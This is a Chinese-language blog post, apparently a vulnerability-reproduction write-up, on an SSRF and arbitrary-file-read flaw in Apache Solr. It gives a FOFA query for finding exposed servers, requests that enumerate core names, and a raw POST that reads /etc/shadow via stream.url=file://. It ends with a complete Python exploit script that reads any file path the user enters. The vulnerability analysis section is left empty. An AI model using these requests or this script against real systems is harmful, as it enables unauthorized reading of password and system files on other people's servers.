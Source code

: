 ```yaml
---
title: Apache Solr SSRF与任意文件读取漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- 漏洞复现
- Solr
abbrlink: 7700
date: 2021-03-22 11:46:53
keywords:
summary:
img:
password:
---
```




# 前言

Apache Solr是一个开源的搜索服务，使用Java语言开发，基于Lucene的全文搜索服务器。

Apache Solr全版本存在一个SSRF与任意文件读取漏洞，因Apache Solr整体默认安装为未授权，且大部分资产都为未授权，提供众多api接口，支持未授权用户通过config api更改配置文件，攻击面较大。建议相关用户及时采取措施阻止攻击。



# 影响范围

Apache Solr 所有版本





# 漏洞复现

**fofa查询资产关键字：**

```
app="APACHE-Solr"
```



**1.首先访问目标url拼接下面的路径，获取实例对象的名称**

```bash
/solr/admin/cores?indexInfo=false&wt=json
```



![获取实例名称](https://image.geoer.cn/solr_instance.png)

如图，可以得到实例对象的名称为`Tourist-guide-Server`





**2.构造路径**

```bash
/solr/".iii."/debug/dump?param=ContentStreams&wt=json
```

其中`iii`就是我们前面得到的实例对象的名称
这里，我们构造之后为下面这个(这个地址作为post请求的地址)：

```bash
/solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json
```



而post数据中的body的内容为：`stream.url=file:///etc/passwd`

即(**发送这个数据包**)：

```bash
POST /solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json HTTP/1.1
Host: IP:PORT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/shadow
```



![读取文件](https://image.geoer.cn/solr_ok.png)







# 漏洞分析

略





# EXP

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-
import requests
import json
import urllib
import time
import re
def Getins(url):
    try:
        ins=""
        url = url+"solr/admin/cores?indexInfo=false&wt=json"
        response = requests.get(url=url)
        data = str(response.text)
        ins = re.findall(r'\"name\":\"(.+?)\",',data)[0]
        return(ins)
    except IndexError:
        return("")

def Getfile(url,ins,filename):
    try:
        url = url+"solr/"+ins+"/debug/dump?param=ContentStreams&wt=json"
        headers ={
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        payload = str("stream.url=file://"+filename)
        response = requests.post(url=url,headers=headers,data=payload)
        data = str(response.text)
        test = re.findall(r'\"stream\":\"(.+?)\"\}]',data)[0]
        print(test.replace(r"\n","\n"))
    except IndexError:
        print("不能读取此文件")
        

if __name__ == '__main__':
    url = input("请输入测试地址:")
    filename = input("请输入读取的文件路径:")
    ins=Getins(url)
    if(ins == ""):
        print("不存在漏洞")
    else:
        Getfile(url,ins,filename)
```

读取效果：

![exp效果](https://image.geoer.cn/solrexp.png)
